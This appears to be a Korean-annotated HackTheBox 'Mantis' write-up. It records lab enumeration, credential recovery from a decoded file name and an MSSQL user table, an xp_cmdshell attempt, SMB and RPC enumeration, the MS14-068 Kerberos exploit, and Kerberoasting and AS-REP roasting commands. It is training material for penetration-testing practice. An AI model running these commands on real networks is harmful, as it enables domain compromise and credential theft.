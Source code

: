 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d

# hash find / https://md5hashing.net/hash_type_checker : m$$ql_S@_P@ssW0rd!
echo -n "6d2424716c5f53405f504073735730726421" | xxd -r -p
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/465c02373b516278293589f23352beb9_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/bd6f445def888058e877f5ca9abbd8c3_MD5.jpeg)
### MSSQL 
```bash
# mssql 접근
impacket-mssqlclient admin@10.129.110.72

# rce permission error로 불가
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# DB 조사
SELECT name FROM sys.databases

# 테이블 조사
use database
SELECT * FROM INFORMATION_SCHEMA.TABLES

# 컬럼 조사
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord'

# 데이터 얻기 / James : james@htb.local : J@m3s_P@ssW0rd!
SELECT UserName, Email, Password FROM blog_Orchard_Users_UserPartRecord
```

![](/assets/images/posts/2025-03-22-Mantis/f70eda358256e33f8bc51f87a38dd1ee_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/182a7b0de707875646da84310c2f5f70_MD5.jpeg)
### SMB
```bash
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --shares
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --users
```
![](/assets/images/posts/2025-03-22-Mantis/727355dbf012cad50ded1b4832834d16_MD5.jpeg)

### RPC
```bash
# S-1-5-21-4220043660-4019079961-2895681657-1103
rpcclient -U htb.local/james%'J@m3s_P@ssW0rd!' 10.129.109.198
```
![](/assets/images/posts/2025-03-22-Mantis/d84c6aca78d1e451b3048f4743b6eb3f_MD5.jpeg)

### PyKEK
```bash
git clone https://github.com/mubix/pykek.git
ms14-068.py -u james@htb.local -s 'S-1-5-21-4220043660-4019079961-2895681657-1103' -d 
```
### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http

sudo impacket-GetUserSPNs -request -dc-ip 10.129.110.72 htb.local/james
impacket-GetNPUsers -dc-ip 10.129.110.72 -request -outputfile hashes.asreproast htb.local/james

mount -t cifs -o rw,username=james,password= '//10.129.110.72/<폴더명>' /mnt
```